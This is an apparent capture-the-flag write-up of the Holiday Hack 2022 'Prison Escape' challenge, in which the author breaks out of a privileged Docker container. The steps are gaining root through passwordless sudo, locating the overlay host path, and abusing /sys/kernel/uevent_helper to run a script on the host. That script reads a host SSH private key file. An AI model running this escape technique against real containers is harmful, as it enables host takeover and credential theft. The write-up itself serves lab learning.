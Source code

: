 # Prison Escape

Time to escape the Docker Prison. This was a neato exercise, since prior to this the extent of my Docker escapes usually revolved around poor developers that didn't think Docker containers were as ephemeral as they are supposed to be considered and left behind pretty sensitive artifacts that an attacker could use to pivot.

```
######################################################
Sun Dec 11 17:26:03 UTC 2022
On attempt [5] of trying to connect.
If no connection is made after [60] attempts
contact the holidayhack sys admins via discord.
######################################################
 
Greetings Noble Player, 

You find yourself in a jail with a recently captured Dwarven Elf.

He desperately asks your help in escaping for he is on a quest to aid a friend in a search for treasure inside a crypto-mine. 

If you can help him break free of his containment, he claims you would receive "MUCH GLORY!"

Please, do your best to un-contain yourself and find the keys to both of your freedom.
```

Greeted with a shell. A shell in which I had sudo access with no password:

```
grinchum-land:~$ sudo -l
User samways may run the following commands on grinchum-land:
    (ALL) NOPASSWD: ALL
grinchum-land:~$ sudo su
grinchum-land:/home/samways# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Ok, so now that I'm root...what should I do?

Let's try to break out of the container!

```
grinchum-land:/home/samways# cat /proc/1/cgroup
11:blkio:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
10:pids:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
9:perf_event:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
8:hugetlb:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
7:cpuset:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
6:devices:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
5:cpu,cpuacct:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
4:memory:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
3:freezer:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
2:net_cls,net_prio:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
1:name=systemd:/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
0::/docker/c686b7175d5ad3fa9d3cde4ac0bc8607067bedd1b59007a77d409f15f691d380
```

Confirmed we are in a docker container...

Checking `/dev` to see if we have access to a lot of devices. Apparently we do:

```
grinchum-land:/home/samways# ls /dev
autofs           loop0   nvram     tty1   tty20  tty31  tty42  tty53  tty7     vcs5   vcsu3
btrfs-control    loop1   ptmx      tty10  tty21  tty32  tty43  tty54  tty8     vcs6   vcsu4
core             loop2   ptp0      tty11  tty22  tty33  tty44  tty55  tty9     vcsa   vcsu5
cpu              loop3   pts       tty12  tty23  tty34  tty45  tty56  ttyS0    vcsa1  vcsu6
cpu_dma_latency  loop4   random    tty13  tty24  tty35  tty46  tty57  uhid     vcsa2  vda
cuse             loop5   shm       tty14  tty25  tty36  tty47  tty58  uinput   vcsa3  vsock
fd               loop6   snapshot  tty15  tty26  tty37  tty48  tty59  urandom  vcsa4  zero
full             loop7   stderr    tty16  tty27  tty38  tty49  tty6   vcs      vcsa5
fuse             mem     stdin     tty17  tty28  tty39  tty5   tty60  vcs1     vcsa6
input            mqueue  stdout    tty18  tty29  tty4   tty50  tty61  vcs2     vcsu
kmsg             net     tty       tty19  tty3   tty40  tty51  tty62  vcs3     vcsu1
loop-control     null    tty0      tty2   tty30  tty41  tty52  tty63  vcs4     vcsu2
```

Do we have access to disk devices?

```
grinchum-land:/home/samways# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
```

Find the overlay filesystem path and set it to `$host_path`

```sh
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```


After some messing around, I discovered that the script on the page itself was relative to where the script was called from! To get this to work properly, I created the following script:

```sh
#!/bin/sh
b=`dirname $0`
cat /etc/hostname > $b/o.txt
```

I then added our script to the event helper and triggered a change:

```sh
echo "$host_path/t.sh" > /sys/kernel/uevent_helper
echo change > /sys/class/mem/null/uevent
```


Now the output showed:

![Output](/img/elfhouse/prisonescape1.png)

Nice, showed the hostname of the host OS. I have code execution!

Now, since the challenge states :

```
Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file `/home/jailer/.ssh/jail.key.priv`?`
```

After changing the `cat /etc/hostname` to `cat /home/jailer/.ssh/jail.key.priv` and viewing the resulting `o.txt` file, I am greeted with this:

![Flag](/img/elfhouse/prisonescape2.png)

And just so I have the ascii:

```

                Congratulations! 

          You've found the secret for the 
          HHC22 container escape challenge!

                     .--._..--.
              ___   ( _'-_  -_.'
          _.-'   `-._|  - :- |
      _.-'           `--...__|
   .-'                       '--..___
  / `._                              \
   `. `._               one           |
     `. `._                           /
       '. `._    :__________....-----'
         `..`---'    |-_  _- |___...----..._
                     |_....--'             `.`.
               _...--'                       `.`.
          _..-'                             _.'.'
       .-'             step                _.'.'
       |                               _.'.'
       |                   __....------'-'
       |     __...------''' _|
       '--'''        |-  - _ |
               _.-''''''''''''''''''-._
            _.'                        |\
          .'                         _.' |
          `._          closer           |:.'
            `._                     _.' |
               `..__                 |  |
                    `---.._.--.    _|  |
                     | _   - | `-.._|_.'
          .--...__   |   -  _|
         .'_      `--.....__ |
        .'_                 `--..__
       .'_                         `.
      .'_    082bb339ec19de4935867   `-.
      `--..____                        _`.
               ```--...____          _..--'
                     | - _ ```---.._.'
                     |   - _ |
                     |_ -  - |
                     |   - _ |
                     | -_  -_|
                     |   - _ |
                     |   - _ |
                     | -_  -_|
```
